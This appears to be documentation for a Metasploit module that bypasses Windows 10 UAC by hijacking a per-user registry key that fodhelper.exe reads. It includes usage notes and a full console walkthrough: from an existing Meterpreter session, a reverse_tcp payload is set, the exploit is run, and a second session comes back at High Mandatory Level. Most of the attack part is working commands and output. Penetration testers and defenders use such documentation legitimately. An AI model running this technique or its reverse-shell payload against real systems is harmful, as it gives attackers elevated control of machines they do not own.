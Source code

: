 ## Intro

  This module will bypass Windows 10 UAC by hijacking a special key in the Registry under
  the current user hive, and inserting a custom command that will get invoked when
  the Windows fodhelper.exe application is launched. It will spawn a second shell that has the UAC
  flag turned off.

  This module modifies a registry key, but cleans up the key once the payload has
  been invoked.

  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting your
  payload in a separate process.

## Usage

  You'll first need to obtain a session on the target system.  
  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.
  The module use an hardcoded timeout of 5 seconds during which it expects fodhelper.exe to be launched on the target system.
  On slower system this may be too short, resulting in no session being created. In this case disable the automatic payload handler (`set DISABLEPAYLOADHANDLER true`)
  and manually create a job handler corresponding to the payload.
  

## Scenarios

```
msf > 
[*] Sending stage (1189423 bytes) to 192.168.50.4
[*] Meterpreter session 11 opened (192.168.50.1:4444 -> 192.168.50.4:1654) at 2017-05-22 19:10:43 +0100

msf > sessions -i 11
[*] Starting interaction with 11...

meterpreter > shell
Process 9496 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\sasha\Desktop>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                                                     

C:\Users\sasha\Desktop>exit
exit
meterpreter > 
Background session 11? [y/N]  
msf > use exploit/windows/local/bypassuac_fodhelper 
msf exploit(bypassuac_fodhelper) > set SESSION 11
SESSION => 11
msf exploit(bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(bypassuac_fodhelper) > set target 0
target => 0
msf exploit(bypassuac_fodhelper) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 192.168.50.1:4445 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\WINDOWS\system32\cmd.exe /c C:\WINDOWS\System32\fodhelper.exe
[*] Sending stage (957487 bytes) to 192.168.50.4
[*] Meterpreter session 12 opened (192.168.50.1:4445 -> 192.168.50.4:1655) at 2017-05-22 19:12:03 +0100
[*] Cleaining up registry keys ...

meterpreter > shell
Process 4076 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /all | findstr /C:"Mandatory Label"
whoami /all | findstr /C:"Mandatory Label"
ERROR: Unable to get user claims information.
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                                                                 

C:\WINDOWS\system32>

```
